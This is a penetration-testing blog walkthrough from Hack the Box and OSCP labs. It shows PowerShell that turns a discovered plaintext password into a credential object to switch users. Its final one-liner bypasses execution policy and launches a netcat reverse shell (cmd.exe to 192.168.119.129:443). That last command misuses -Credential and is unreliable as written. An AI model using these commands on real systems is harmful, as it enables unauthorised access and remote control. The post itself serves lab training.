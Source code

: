 ```yaml
---
layout: post
title:  "Powershell For Penetration Testers Switching Users"
author: nanobyte
date:   2020-06-01
description: PowerShell for Penetration Testing, and how to use credentials to switch users
tags: PowerShell HTB_Walkthrough
---
```


While completing Hack the Box's Sniper machine, I came across the need to have to switch to a different user. Credentials were discovered in a db.php file, and there was no way to login as that user using external tools such as Evil-WinRM. However, thanks to PowerShell, there is a simple way to quickly write a script to store these credentials in variables, and enter a new PowerShell session to that user. To begin, the credentials discovered were Chris:36mEAhz/B8xQ~2VM. To start out, the first variables I needed to set were the username and password:

{% highlight powershell linenos %}
$username='Chris'
$password='36mEAhz/B8xQ~2VM'
{% endhighlight %}

Now that I had the credentials stored, I could not pass these credentials as plain text. PowerShell is special when it comes to handling passwords; it requires that you use a secure string when passing passwords for accounts. This can be completed using PowerShells ConvertTo-SecureString. To find out more about this, please visit <a href="https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.security/convertto-securestring?view=powershell-7" target="_blank">docs.Microsoft.com</a>. To secure the password, I made a new variable `$securePassword` and secured the `$password` string:

{% highlight powershell linenos %}
$username='Chris'
$password='36mEAhz/B8xQ~2VM'
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force
{% endhighlight %}

Now, I had the beginning parts of my script complete. It has taken basic user credentials and stored them securely to pass for use to enter into our new session. The next stage is creating a `$credential` variable and using PowerShell's New-Object cmdlet to create a new .NET framework object for the credentials. In PowerShell, objects are "things" that the language can "consume", and have their own properties. In my case, I was creating a new `$credential` object for PowerShell to "use" that consist of several properties. We can see these properties coming up. To make this object, I added the following command to our script:

{% highlight powershell linenos %}
$username='Chris'
$password='36mEAhz/B8xQ~2VM'
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force
$credential = New-Object System.Management.Automation.PSCredential ($username, $securePassword)
{% endhighlight %}

With that I had created our object containing Chris' credentials! At this point, I was able to check to make sure that the credentials are properly stored. PowerShell provides a GetNetworkCredentials method to verify this. I simply called this method on the new credentials object, along with format-list. PowerShell's format-list is a powerful output tool, which displays a tabled list of properties. To output all the properties, we include the star symbol after the cmdlet:

{% highlight powershell linenos %}
$username='Chris'
$password='36mEAhz/B8xQ~2VM'
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force
$credential = New-Object System.Management.Automation.PSCredential ($username, $securePassword)
$credential.GetNetworkCredential() | Format-List *
{% endhighlight %}

And as output, we should see the proper credentials returned in a PowerShell formatted list:

{% highlight powershell linenos %}
UserName       : Chris
Password       : 36mEAhz/B8xQ~2VM
SecurePassword : System.Security.SecureString
{% endhighlight %}

Finally, I then entered into a new PowerShell session. This is completed by first using the New-PSSession cmdlet. This cmdlet allows us to create a new session on a local or remote computer. I then passed the stored secure credentials to this new session! And once passed, I piped to PowerShell's Enter-PSSession cmdlet to enter into the session:

{% highlight powershell linenos %}
$username='Chris'
$password='36mEAhz/B8xQ~2VM'
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force
$credential = New-Object System.Management.Automation.PSCredential ($username, $securePassword)
$credential.GetNetworkCredential() | Format-List *
New-PSSession -Credential $credential | Enter-PSSession
{% endhighlight %}

And with that, I had properly created a simple script to switch into a user PowerShell session, when I was unable to log into the machine using external tools! 

Now, to take this one step further. I could use this method and create a PowerShell one-liner. This one liner would look something like this (I have removed the `$credential.GetNetworkCredential() | Format-List *` line to make the line more digestable, but can be placed in for a credential check:

{% highlight powershell linenos %}
$username='Chris';$password='36mEAhz/B8xQ~2VM';$securePassword = ConvertTo-SecureString $password -AsPlainText -Force;$credential = New-Object System.Management.Automation.PSCredential ($username, $securePassword);New-PSSession -Credential $credential | Enter-PSSession
{% endhighlight %}

And this would enter into a new PowerShell session as a one-liner. To use this one-liner in another practical example, during OSCP's labs I had to bypass a restricted PowerShell policy and spawn a new process with user credentials, in a one-liner. To start, check out my previous post on <a href="https://ubg-hacking.team/2020/05/23/powershell-for-pentesters-beating-restricted-policies.html" target="_blank">beating PowerShell's restricted policies</a>. To spawn our new process, we would make the following change:

{% highlight powershell linenos %}
powershell -exec bypass -nop -c "& {$username='Chris';$password='36mEAhz/B8xQ~2VM';$securePassword = ConvertTo-SecureString $password -AsPlainText -Force;$credential = New-Object System.Management.Automation.PSCredential ($username, $securePassword);$prog='C:\\temp\\nc.exe'; $args='-e cmd.exe 192.168.119.129 443'; Start-Process -Credential $prog $args }"
{% endhighlight %}

It is important to pass the `-Credential` object first, before `$prog` and the `$args` variables to work properly. Thanks for reading!
